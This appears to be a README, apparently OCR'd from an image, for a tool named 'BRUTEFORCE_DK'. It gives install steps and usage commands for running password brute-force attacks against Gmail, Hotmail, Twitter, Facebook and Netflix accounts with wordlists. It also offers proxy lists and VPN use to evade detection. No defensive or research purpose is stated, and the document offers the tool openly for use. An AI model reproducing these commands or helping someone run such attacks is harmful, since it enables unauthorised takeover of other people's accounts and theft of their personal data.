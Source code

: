 #BRUTEFORCE_DK
install :
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
Usage:
BruteForce Gmail Attack
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
BruteForce Hotmail Attack
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
BruteForce Twitter Attack
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt
BruteForce Facebook Attack
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.tx

BruteForce Netflix Attack
USE VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.list
